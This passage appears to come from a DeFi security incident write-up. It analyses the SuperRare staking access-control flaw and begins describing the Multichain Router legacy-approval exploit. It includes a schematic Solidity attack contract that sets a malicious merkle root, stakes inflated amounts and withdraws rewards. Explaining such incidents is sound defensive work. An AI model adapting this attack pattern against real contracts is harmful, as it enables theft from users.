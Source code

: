 ### The Attack Execution

**Discovery Timeline:**
A simple mistake in the `updateMerkleRoot` function allowed anyone to hijack critical staking logic and drain $730K worth of RARE tokens. It took attackers about two weeks to discover and exploit this completely preventable and careless vulnerability.

```solidity
// Attack contract exploiting the access control flaw
contract SuperRareExploit {
    SuperRareStaking target;
    
    function executeExploit() external {
        // Step 1: Create malicious merkle tree allowing unlimited staking
        bytes32 maliciousMerkleRoot = calculateMaliciousRoot();
        
        // Step 2: Update merkle root (bypasses access control)
        target.updateMerkleRoot(maliciousMerkleRoot);
        
        // Step 3: Generate proof for massive stake allocation
        bytes32[] memory maliciousProof = generateMaliciousProof();
        
        // Step 4: Stake with inflated amounts
        target.stake(1000000 ether, maliciousProof);
        
        // Step 5: Withdraw rewards based on manipulated staking data
        target.withdrawRewards();
    }
    
    function calculateMaliciousRoot() internal pure returns (bytes32) {
        // Create merkle root that validates any staking amount for attacker
        return keccak256(abi.encodePacked("MALICIOUS_ROOT_ALLOWING_ANY_AMOUNT"));
    }
}
```

**Root Cause Analysis:**
The vulnerability stemmed from incomplete access control validation that allowed unauthorised users to manipulate critical protocol parameters, specifically the merkle root used for staking eligibility verification.

---

## 🔴 Multichain Router: Legacy Approval Exploitation

**The Crisis:** Users continue to fall victim to exploits long after major breaches because permission revocation is often neglected, with the 2022 Multichain Router vulnerability still being exploited in 2025.

### Technical Analysis: The Phantom Function Attack

The Multichain Router (formerly AnySwap) vulnerability from 2022 allowed attackers to bypass intended permission checks and drain funds from wallets that still had lingering approvals, even on chains where the router was no longer active.
